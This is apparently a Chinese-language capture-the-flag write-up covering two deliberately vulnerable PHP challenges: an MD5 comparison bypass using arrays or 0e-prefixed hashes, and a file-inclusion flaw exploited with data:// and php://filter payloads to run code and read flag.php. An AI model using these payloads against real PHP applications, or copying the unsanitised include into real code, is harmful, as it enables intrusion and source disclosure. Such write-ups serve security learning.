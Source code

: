 ```php
<?php
error_reporting(0);
include_once "flag";
$a=$_GET['a'];
$b=$_POST['b'];
if(isset($a)){
    if($a!=$b&&md5($a)===md5($b)){
        echo $flag;
    }else{
        echo 'try again';
    }
}else{
    highlight_file(__FILE__);
}
```

首先来看一下这里变量的设置

```php
$a=$_GET['a'];
$b=$_POST['b'];
```

代表a变量是通过get方式赋值的，b变量是通过post方式赋值的；**isset()**函数用来判断是否设置了a变量

```php
$a!=$b&&md5($a)===md5($b)
```

这里的考点是一个典型的md5绕过

```php
根据MD5的特性，有两点漏洞
1.两个开头为0的md5值相同;适用于==
2.md5不能处理数组；适用于===和==
```

### ezinclude

```php
<?php
error_reporting(0);
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

主要考察伪协议的使用；这里来一个链接，可以拓展一下https://segmentfault.com/a/1190000018991087

```
data://text/plain;base64,PD9waHAgaW5jbHVkZSAnZmxhZy5waHAnOw==
data伪协议;后面是base64加密之后的<?php include 'flag.php';
?file=php://filter/read=convert.base64-encode/resource=flag.php
php伪协议；可以得到base64加密之后的flag
```
